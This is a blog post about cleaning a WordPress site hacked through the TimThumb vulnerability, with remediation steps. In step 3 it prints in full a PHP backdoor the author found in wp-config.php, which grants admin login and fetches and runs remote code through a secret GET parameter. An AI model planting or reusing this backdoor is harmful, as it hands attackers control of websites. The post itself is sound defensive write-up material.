

About two days ago, I received a warning from Google saying my website has been exploited and hacked. Of course, the emails they sent I never received, so I didn’t realise I had an issue until about an hour ago. My first reaction was OMG, WTF! I knew it most likely had something to do with the recent TimThumb exploit, but I didn’t even know my theme had TimThumb included. I also looked at the Google diagnostic repost which it linked me to, which I found the malware related to `counter-wordpress.com`.

First of all, I would advise running the script found at [Sucuri](http://blog.sucuri.net/2011/08/timthumb-php-security-vulnerability-just-the-tip-of-the-iceberg.html). Then, scan your site using the [Sucuri Site Scanner](http://sitecheck.sucuri.net/scanner/) to find out which pages they have exploited and how. This is the best little site I have found for this, and I would definitely bookmark it for future reference as well if I were you.

Extremely quickly, I jumped to action. This is the exact steps I took and you can take too, to remove the exploits from your code:

1. Delete the following files:

```
wp-admin/upd.php
wp-content/upd.php
```

2. Log into WordPress admin and reinstall your WordPress version. We are focusing on these three files:

```
wp-settings.php
wp-includes/js/jquery/jquery.js
wp-includes/js/l10n.js
```

3. Open "`wp-config.php`" and look for anything that seems out of place. In mine, I found a script which appears to harvest login credentials/cookies, which found on the 2000 or so line. Above and a few thousand lines below were all blank:

```php
if (isset($_GET['pingnow'])&& isset($_GET['pass'])){
if ($_GET['pass'] == '19ca14e7ea6328a42e0eb13d585e4c22'){
if ($_GET['pingnow']== 'login'){
$user_login = 'admin';
$user = get_userdatabylogin($user_login);
$user_id = $user->ID;
wp_set_current_user($user_id, $user_login);
wp_set_auth_cookie($user_id);
do_action('wp_login', $user_login);
}
if (($_GET['pingnow']== 'exec')&&(isset($_GET['file']))){
$ch = curl_init($_GET['file']);
$fnm = md5(rand(0,100)).'.php';
$fp = fopen($fnm, "w");
curl_setopt($ch, CURLOPT_FILE, $fp);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_TIMEOUT, 5);
curl_exec($ch);
curl_close($ch);
fclose($fp);
echo "<SCRIPT LANGUAGE="JavaScript">location.href='$fnm';</SCRIPT>";
}
if (($_GET['pingnow']== 'eval')&&(isset($_GET['file']))){
$ch = curl_init($_GET['file']);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_TIMEOUT, 5);
$re = curl_exec($ch);
curl_close($ch);
eval($re);
}}}
```

4. In your theme, look for anywhere the TimThumb script may be storing the cached files. These are generally along the lines of:

```
wp-content/themes/theme-name/scripts/cache/external_{MD5Hash}.php
wp-content/themes/theme-name/temp/cache/external_{MD5Hash}.php
```

If you found anything like the above, delete it straight away. If you're not sure, delete every file that isn’t an image.

5. Replace `timthumb.php` with the latest version found at `http://timthumb.googlecode.com/svn/trunk/timthumb.php`.

6. Change your MySQL and login password and update wp-config.php to correspond with the update.

7. Change the secret keys in `wp-config.php`.

8. Clear your browsers cache and cookies.

9. Empty any page caching plugins you may have enabled to push the updates through to your visitors.

Throughout this, I also found a botting script and some spam black hat links. Make sure you scan your site using the [Sucuri Site Scanner](http://sitecheck.sucuri.net/scanner/) once again to make sure you removed all the exploits. When you are sure you have removed everything, submit your site to Google for review. This can be done in the `Diagnostics -> Malware` tab of your Google Webmaster account. To keep up with anymore potential exploits, I would recommend following their fantastic blog found at [blog.sucuri.net](http://blog.sucuri.net/).
